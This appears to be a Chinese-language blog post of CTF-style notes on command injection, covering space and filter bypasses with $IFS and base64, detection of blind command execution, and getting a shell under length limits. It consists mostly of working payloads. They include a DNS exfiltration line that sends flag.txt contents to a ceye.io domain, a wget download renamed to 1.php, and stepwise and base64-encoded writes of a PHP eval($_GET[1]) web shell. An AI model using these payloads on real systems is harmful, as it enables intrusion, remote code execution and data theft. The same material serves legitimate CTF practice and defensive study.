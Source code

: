 <pre class="wp-block-code"><code>&lt;符号
$IFS
${IFS}
$IFS$9
%09用于url传递</code></pre>

命令执行的绕过：

<pre class="wp-block-code"><code>a=l;b=s;$a$b

`echo d2hvYW1p|base64 -d`base64编码</code></pre>

"substr string pos len"用法示例。该表达式是从string中取出从pos位置开始长度为len的子字符串。如果pos或len为非正整数时，将返回空字符串。一些用法范例：

<pre class="wp-block-code"><code>echo "${PATH:0:1}"
echo "`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`"
echo `$(expr${IFS}substr${IFS}$PWD${IFS}1${IFS}1)`
expr${IFS}substr${IFS}$SESSION_MANAGER${IFS}6${IFS}1</code></pre>

$(pwd)与pwd的区别在于更明确，$PWD是环境变量。<figure class="wp-block-image size-full">

<img loading="lazy" width="759" height="217" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-132.png" alt="" class="wp-image-2710" /> </figure> 

## 0x02 命令执行无回显的判断方法

命令无回显时的判断：延时（sleep time）、HTTP请求（curl ip:port+自己的服务器nc -lv port）、DNS请求（curl或ping域名+ceye等平台）。

利用：写shell（直接写入/外部下载）、http/dns等方式带出数据。

范例1：ping=\`cat flag.txt|sed /[[:space:]]//\`.xxx.ceye.io

## 0x03 可控字符串长度受限情况下Getshell

### **15个字符**

`wget a.cn/1`<span class="has-inline-color has-vivid-red-color">-></span>`mv 1 1.php`

`echo \<?php >1`<span class="has-inline-color has-vivid-red-color">-></span>`echo eval\(>>1`<span class="has-inline-color has-vivid-red-color">-></span>`echo \$_GET>>1`<span class="has-inline-color has-vivid-red-color">-></span> `echo \[1\]>>1`<span class="has-inline-color has-vivid-red-color">-></span> `<code>echo \)\;>>1`<span class="has-inline-color has-vivid-red-color">-></span> mv 1 1.php</code>

### 7个字符

预备知识，参考<a href="https://www.freesion.com/article/7875567520/" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.freesion.com/article/7875567520/</a>

<pre class="wp-block-code"><code>>a    #虽然没有输入但是会创建a这个文件
ls -t    #ls基于基于事件排序（从晚到早）
sh a    #sh会把a里面的每行内容当作命令来执行
使用|进行命令拼接    #l\ s    =    ls
base64    #使用base64编码避免特殊字符</code></pre>

`<?php eval($_GET[1]);`进行base64加密，需要被执行的语句：`echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php`


[1]: https://www.freesion.com/images/969/c9db6635dd9abcdf077f27576aef5e59.png
[2]: https://www.freesion.com/images/163/0c566f59f77d40f4bcd7d55bd4976833.png
[3]: https://www.freesion.com/images/385/ee52a107b1a0028e7883d34d156cb511.png
[4]: https://www.freesion.com/images/191/b6c3bb8ddefff62d99609983f27284a7.png